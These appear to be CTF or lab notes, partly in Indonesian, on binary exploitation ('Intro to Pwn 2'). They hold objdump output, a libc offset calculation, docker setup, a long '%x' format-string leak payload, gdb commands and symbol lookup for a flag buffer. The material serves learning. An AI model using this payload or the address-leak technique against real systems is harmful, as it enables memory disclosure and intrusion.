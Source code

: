 ```
  81845:       e9 6e fe ff ff          jmp    816b8 <_IO_setvbuf@@GLIBC_2.2.5+0x48>  
  8184f:       eb bc                   jmp    8180d <_IO_setvbuf@@GLIBC_2.2.5+0x19d>  
  8807d:       e9 ee 95 ff ff          jmp    81670 <_IO_setvbuf@@GLIBC_2.2.5>
```

```
hex(7f2199af6670-0x81670+0xebcf8)
```
### Reverensi
https://wiki.cdot.senecacollege.ca/wiki/X86_64_Register_and_Instruction_Quick_Start#:~:text=rdx%20%2D%20register%20d%20extended,index%20(destination%20for%20data%20copies)


## Intro to Pwn 2
```sh
sudo docker build . -t intro-pwn2
sudo docker run -p 1024:1024 intro-pwn2
sudo docker exec -it b43ac85fb888 "/bin/bash"
```

vulnerability
```
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
```

```
x *main
print main
print load_flag
```
sample out:
```
$2 = {<text variable, no debug info>} 0x4012a4 <load_flag>
```
A segfault basically means you did something bad with pointers. This is probably a segfault:

melihat stack pointer
```
p $sp
x/40x $sp # hex
x/40s $sp # string
```

kita akan mencari address dari stack yang kemungkinan menyimpan "flag"-nya
```sh
objdump -t pwn2
[...]
0000000000401400 g     F .text  000000000000005d              __libc_csu_init  
00000000004040e0 g     O .bss   0000000000000400              flag_buffer  
00000000004044e0 g       .bss   0000000000000000              _end
[...]
```
